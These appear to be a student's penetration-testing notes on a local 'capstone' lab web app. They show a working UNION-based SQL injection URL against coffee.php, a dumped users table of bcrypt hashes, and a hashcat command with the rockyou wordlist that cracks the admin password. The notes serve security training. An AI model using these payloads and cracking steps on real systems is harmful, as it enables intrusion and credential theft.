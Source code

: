 - [ ] `http://localhost/capstone/admin`: 403 response

`http://localhost/capstone/assets`: 403 response

## directory traversal
failed

## Post-login
- [ ] sql injection to PHPSESSID

## query string in DOM
- [ ] the URL below leads to the following text appearing in the webpage: `You successfully logged in!`
```
http://localhost/capstone/index.php?message=You%20successfully%20logged%20in!
```


## coffee.php?coffee=1 
SQL injection
```
http://localhost/capstone/coffee.php?coffee=1'+union+select+9,column_name,7,6,5,4,3+from+information_schema.columns+where+table_name%3d'users'--+-
```

table: `users`
columns:
- `user_id`
- `username`
- `password`
- `type`

| username | password                                                     | type  |
| -------- | ------------------------------------------------------------ | ----- |
| jeremy   | $2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy | admin |
| jessamy  | $2y$10$meh2WXtPZgzZPZrjAmHi2ObKk6uXd2yZio7EB8t.MVuV1KwhWv6yS | admin |
| raj      | $2y$10$cCXaMFLC.ymTSqu1whYWbuU38RBN900NutjYBvCClqh.UHHg/XfFy | admin |
| bob      | $2y$10$ojC8YCMKX2r/Suqco/h.TOFTIaw5k3Io5FVSCeWjCCqL8GWwmAczC |       |
| maria    | $2y$10$EPM4Unjn4wnn4SjoEPJu7em6OLISImA50QS3T1jCLyh48d7Pv6KBi |       |
| amir     | $2y$10$qAXjb233b7CMHc69CU.8ueluFWZDt9f08.XYJjsJ.EfC/O5JGSOqW |       |
| xinyi    | $2y$10$37gojoTFmj86E6NbENGg9e2Xu2z6OKKSgnjYxDkXJn/8dvSk2tKfG |       |
| kofi     | $2y$10$5sVvPfZOjzRTSeXJtQBGc.CfsDEwvITNkIg2IF9jSBhZZ1Rq.IK3. |       |

crack Jeremy's password: #blowfish_hash
`$ hashcat -m 3200 '$2y$10$F9bvqz5eoawIS6g0FH.wGOUkNdBYLFBaCSzXvo2HTegQdNg/HlMJy' /usr/share/wordlists/rockyou.txt`
password: `captain1`
